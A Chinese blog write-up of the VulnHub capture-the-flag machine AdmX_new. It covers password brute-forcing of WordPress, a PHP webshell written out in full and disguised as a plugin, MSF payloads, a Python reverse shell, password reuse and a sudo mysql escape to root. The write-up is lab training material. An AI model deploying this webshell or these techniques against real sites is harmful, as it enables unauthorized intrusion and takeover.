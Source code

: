 ```yaml
---
title: VulnHub靶场 AdmX_new
description: VulnHub靶场 AdmX_new WP
pubDate: 11 06 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-12.png?imageMogr2/format/avif
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


## 说明

靶场里存在两个 flag

## 主机发现

进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-1.png?imageMogr2/format/avif)

得到目标机器 IP 为 `192.168.217.144`，进行端口服务发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-5.png?imageMogr2/format/avif)

发现 80 端口，运行 HTTP 服务，访问目标页面。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-2.png?imageMogr2/format/avif)

是一个 Ubuntu 下 Apache 的默认页面

## Web 后台登录

对该网站进行目录扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-3.png?imageMogr2/format/avif)

发现如下目录，访问 `http://192.168.217.144//tools/adminer.php`，得到数据库连接界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-4.png?imageMogr2/format/avif)

访问 `http://192.168.217.144/wordpress/` ，经过漫长的访问，才出现一个基本的 Web 框架

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-6.png?imageMogr2/format/avif)

不对劲，查看网络情况

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-7.png?imageMogr2/format/avif)

IP 是硬编码写死的，通过 burp 拦截，把这个 IP 改成真实的 IP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-8.png?imageMogr2/format/avif)

然后再进行测试，发现可以正常访问。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-9.png?imageMogr2/format/avif)

访问 `http://192.168.217.144/wordpress/wp-login.php` 来到 wordpress 的登录界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-10.png?imageMogr2/format/avif)

尝试弱口令登录，发现存在 admin 用户

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-11.png?imageMogr2/format/avif)

利用 burp 对 admin 用户进行密码爆破，得到密码为 `adam14`，成功登录后台

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-12.png?imageMogr2/format/avif)

## Wordpress 插件 getshell

在主题模板上放个木马，这里选择在 404 页面放了个一句话木马

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-13.png?imageMogr2/format/avif)

更新页面，结果报错失败了

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-14.png?imageMogr2/format/avif)

Wordpress 支持上传 ZIP 格式的插件包。我们可以写一个符合 Wordpress 格式的 webshell 然后让网站以插件加载它。

```php
<?php
/*
Plugin Name: Webshell Plugin
Description: Wordpress WebShell
Version: 1.0
Author: trtyr
*/

@eval($_POST['cmd']);
?>
```

然后将其打包成 zip，上传

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-15.png?imageMogr2/format/avif)

直接蚁剑连接

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-16.png?imageMogr2/format/avif)``

## 内网渗透

我们现在拿到了蚁剑的 shell，上传一个 MSF 木马，再上线一下 MSF

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-17.png?imageMogr2/format/avif)

主机里存在两个 flag。我们先去看看 `/home` 目录下几个用户

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-18.png?imageMogr2/format/avif)

存在一个 `wpadmin` 用户，在文件夹内发现 `local.txt`，结果没有权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-19.png?imageMogr2/format/avif)

我们回去看一下网站的数据库配置文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-20.png?imageMogr2/format/avif)

得到一个用户名密码 `Wp_Admin#123`，试试能不能登录数据库

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-21.png?imageMogr2/format/avif)

数据库登录失败，尝试拿这个密码登录用户。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-22.png?imageMogr2/format/avif)

登录失败，我们还知道网站密码是 `adam14`，挨个尝试，结果用户登录上去了。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-23.png?imageMogr2/format/avif)

在当前用户下，通过 curl 下载一个新的 MSF 木马

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-24.png?imageMogr2/format/avif)

没有写入权限，我们再上线一个 nc。结果这里是个大坑，试了好几遍都不行，后来发现主机有 python3，拿 python 去反弹了 shell。

拿到 shell 后直接去看那个 `local.txt`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-25.png?imageMogr2/format/avif)

得到第一个 flag。然后看一下这个用户能不能执行 `sudo -l`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-26.png?imageMogr2/format/avif)

可以发现可以执行 `/usr/bin/mysql -u root -D wordpress -p` 命令，尝试使用 `sudo` 运行该命令。经过测试，密码又是 `adam14`，拿到数据库 shell

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-27.png?imageMogr2/format/avif)

使用 `system` 命令直接上 bash

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-28.png?imageMogr2/format/avif)

拿到 root 权限，去 root 目录下，拿到第二个 flag

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-29.png?imageMogr2/format/avif)

